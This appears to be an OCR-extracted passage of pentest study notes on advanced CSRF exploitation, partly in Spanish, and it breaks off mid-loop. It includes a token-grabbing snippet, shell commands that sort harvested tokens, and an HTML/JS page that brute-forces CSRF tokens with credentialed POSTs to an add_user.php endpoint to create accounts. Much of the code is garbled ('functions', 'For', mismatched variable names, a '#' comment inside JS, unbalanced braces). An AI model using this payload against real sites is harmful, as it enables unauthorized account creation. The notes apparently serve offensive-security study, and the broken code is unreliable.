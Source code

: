 ```js
    addUSer(token);
  }

}

XHR.open('GET', 'targeturl.site',true);
XHR.send();

</script>
```

Get token in browser

* document.getElementById('CSRFToken').value

### Advanced CSRF Exploitation - parte 2

* Envía la página sicútero en BURP a Sequencer
* Haz la prueba en vivo.
* Guarda las fichas.

in CMD:

```bash
sort <token file> // get rid of duplicates
sort <token file> | uniq -c //show the most common tokens
sort <token file> | uniq -c | nl 
sort <token file> | uniq > valid_tokens

cd /var/www
nano brutePOST.html
```

```js
<html>
<body>
  <textarea id="tokens" row="12" columns="60">
    <copy the valid tokens here>
  </textarea>

<script>
function XHRPost(tVal){
  var http = new XMLHttpRequest();
  var url = "target.site/add_user.php";
  var token = tVal;
  var params = "POST data from BURP" //edit the token in the data with the 'token' variable
  http.open("POST", url, true);
  http.withCredentials = "true";
  http.setRequestHeader("Content-Type", "content type from BURP");
  http.onreadystatechange = function(){
    if(http.readyState> 1){
      //For the SoP we dont care about response
      http.abort();

  }
  # Serialize the param object
  queryParams = Object.keys(params).reduce(functions(a,k){
    a.push(k + '=' + encodeURIComponent(params[k]));
    return a
    
  }, []).join('&');
  http.send(queryParams);
}
function bruteLoop(TList){
  For (var i=0; i<TList.length; i++){
    XHRPost(Tlist[i]);
```